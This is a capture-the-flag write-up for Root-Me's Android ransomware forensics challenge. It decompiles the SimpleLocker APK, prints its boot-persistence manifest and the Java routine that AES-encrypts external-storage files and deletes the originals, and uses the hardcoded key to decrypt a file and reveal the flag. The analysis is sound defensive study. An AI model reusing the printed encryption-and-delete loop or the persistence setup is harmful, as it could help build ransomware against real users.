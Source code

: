# Ransomware Android
https://www.root-me.org/en/Challenges/Forensic/Ransomware-Android
```
The CISO Android tablet has been compromised by a ransomware, his confidential documents were encrypted. It is, of course, no question for us to pay the ransom, we would lose all our credibility.
You have a part dump of his tablet and must restore these documents.
```

As the description mentioned, the ZIP file contains a dump of an Android file-system.<br>
In the _/app/_ directory there is only 1 APK (org.simplelocker-1.apk), in the _/app-lib/_ directory there is only 1 sub-directory (org.simplelocker-1) with 4 libraries (libobfsproxy.so, libprivoxy.so, libtor.so and libxtables.so), and the _/app-asec/_ and the _/app-private/_ are empty.<br>
The libraries' names are pretty suspicious. So identifing **org.simplelocker-1.apk** as the ransomeware is a pretty good guess.<br>
In this challenge, one or more documents had been encrypted. After a quick search, it seems like the only (important) file that suppose to be recovered is _/media/Documents/Confidentiel.jpg.enc_.<br><br>

After decompile the APK, the following AndroidManifest.xml was found:
```xml
<?xml version="1.0" encoding="utf-8" standalone="no"?><manifest xmlns:android="http://schemas.android.com/apk/res/android" android:installLocation="auto" package="org.simplelocker">
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>
    <uses-permission android:name="android.permission.READ_PHONE_STATE"/>
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
    <uses-permission android:name="android.permission.WAKE_LOCK"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <application android:allowBackup="false" android:debuggable="true" android:label="@string/app_name">
        <activity android:launchMode="singleTop" android:name=".Main" android:theme="@style/AppTheme">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <receiver android:enabled="true" android:exported="true" android:name=".ServiceStarter">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED"/>
            </intent-filter>
        </receiver>
        <receiver android:enabled="true" android:exported="true" android:name=".SDCardServiceStarter">
            <intent-filter>
                <action android:name="android.intent.action.ACTION_EXTERNAL_APPLICATIONS_AVAILABLE"/>
            </intent-filter>
        </receiver>
        <service android:name=".MainService"/>
        <service android:enabled="true" android:exported="false" android:name="org.torproject.android.service.TorService">
            <intent-filter>
                <action android:name="org.torproject.android.service.ITorService"/>
                <action android:name="org.torproject.android.service.TOR_SERVICE"/>
            </intent-filter>
        </service>
    </application>
</manifest>
```

According to the manifest, there are 4 enabled services and 1 activity:
<ol>
  <li><b>.Main</b> activity, which is the application's launcher.</li>
  <li><b>.ServiceStarter</b>, which recieves an intent when the boot is completed (probably for starting).</li>
  <li><b>.SDCardServiceStarter</b>, which recieves the intent <i>ACTION_EXTERNAL_APPLICATIONS_AVAILABLE</i> which getting broadcast soon after the boot is completed (probably for starting the service).</li>
  <li><b>.MainService</b>.</li>
  <li><b>org.torproject.android.service.TorService</b>, which recieves intents from a TOR service.</li>
</ol><br>

The <b>.Main</b> activity seems to display something (not important), and it sends an intent (com.locker.MainServiceStart) to start the <b>.MainService</b>.<br>
The <b>.ServiceStarter</b> and the <b>.SDCardServiceStarter</b> services are pretty much the same - both send an intent (com.locker.MainServiceStart) to start the <b>.MainService</b>. Probably in order to keep the persistence of the ransomware after a reboot.<br>
The <b>org.torproject.android.service.TorService</b> is a known library. As the name implies, the service is used to communicate with a remote entity (in this APK the entity is 127.0.0.1:9050).<br><br>

So that leaves the <b>.MainService</b>.<br>
This service does bunch of stuff - communicate with a remote entity using TOR proxy, sets a _WakeLock_, schedule tasks and more. Because the APK is a ransomware, and because the challenge is to find an encrypted password, the following class seems interesting:<br>
```java
class C01165 implements Runnable {
    C01165() {
    }

    public void run() {
        try {
            new FilesEncryptor(MainService.this.context).encrypt();
        } catch (Exception e) {
            Log.d(Constants.DEBUG_TAG, "Error: " + e.getMessage());
        }
    }
}
```
A new object is initiated (FilesEncryptor) with the current context and the **encrypt** function is call.<br>
This is the **encrypt** function in the FilesEncryptor class:
```java
public void encrypt() throws Exception {
    if (!this.settings.getBoolean(Constants.FILES_WAS_ENCRYPTED, false) && isExternalStorageWritable()) {
        AesCrypt aes = new AesCrypt(Constants.CIPHER_PASSWORD);
        Iterator it = this.filesToEncrypt.iterator();
        while (it.hasNext()) {
            String fileName = (String) it.next();
            aes.encrypt(fileName, new StringBuilder(String.valueOf(fileName)).append(".enc").toString());
            new File(fileName).delete();
        }
        Utils.putBooleanValue(this.settings, Constants.FILES_WAS_ENCRYPTED, true);
    }
}
```
It's pretty easy to understand what's up.<br>
First, the function checks if the files are already encrypted (in order to not encrypt it twice) and if it's possible to change the data in the external storage.<br>
Then, an AES encryption instance is created (**AesCrypt**) with a key that presents in the **Constants** class.<br>
Afterward, it will iterate the files in the external storage and call the _encrypt_ function of the initiated **AesCrypt** object, and will delete the original file.<br>
Lastly, it will sets a boolean variable to ```true```, so the files won't get encrypted twice.<br><br>

According to the **Constants** class:
```java
...snip...
public static final String CIPHER_PASSWORD = "mcsTnTld1dDn";
...snip...
```
So the key is now known, let's see what's up at the **AesCrypt** class:
```java
...snip...
public AesCrypt(String password) throws Exception {
    MessageDigest digest = MessageDigest.getInstance("SHA-256");
    digest.update(password.getBytes(HTTP.UTF_8));
    byte[] keyBytes = new byte[32];
    System.arraycopy(digest.digest(), 0, keyBytes, 0, keyBytes.length);
    this.key = new SecretKeySpec(keyBytes, "AES");
    this.spec = getIV();
}

public AlgorithmParameterSpec getIV() {
    return new IvParameterSpec(new byte[16]);
}

public void encrypt(String rawFile, String encryptedFile) throws Exception {
    FileInputStream fis = new FileInputStream(rawFile);
    FileOutputStream fos = new FileOutputStream(encryptedFile);
    this.cipher.init(1, this.key, this.spec);
    CipherOutputStream cos = new CipherOutputStream(fos, this.cipher);
    byte[] d = new byte[8];
    while (true) {
        int b = fis.read(d);
        if (b == -1) {
            cos.flush();
            cos.close();
            fis.close();
            return;
        }
        cos.write(d, 0, b);
    }
}

public void decrypt(String encryptedFile, String rawFile) throws Exception {
    FileInputStream fis = new FileInputStream(encryptedFile);
    FileOutputStream fos = new FileOutputStream(rawFile);
    this.cipher.init(2, this.key, this.spec);
    CipherInputStream cis = new CipherInputStream(fis, this.cipher);
    byte[] d = new byte[8];
    while (true) {
        int b = cis.read(d);
        if (b == -1) {
            fos.flush();
            fos.close();
            cis.close();
            return;
        }
        fos.write(d, 0, b);
    }
}
```
Let's break it down a bit.<br>
First, in the constructor of the class a IV (which is an 16 zeros according to **getIV**) and akey generated from the given password (which we know already). The password seems to be a SHA-256 of the "mcsTnTld1dDn" - which is **d49af309a4c69382ff07bc6f83ba4c2595a7f086d3e5b69e119e2337cb75172d**.<br><br>

After we got the key and IV, we can decrypt the file. Fortunately, the **decrypt** function exists to do it for us (without writing a new script).<br>
So after copying the class to a new Java project, creating an instance (with "mcsTnTld1dDn") and running the **decrypt** function, it seems like an image was created.

In the end, the flag is **BullShitR4ns0mW4re**.
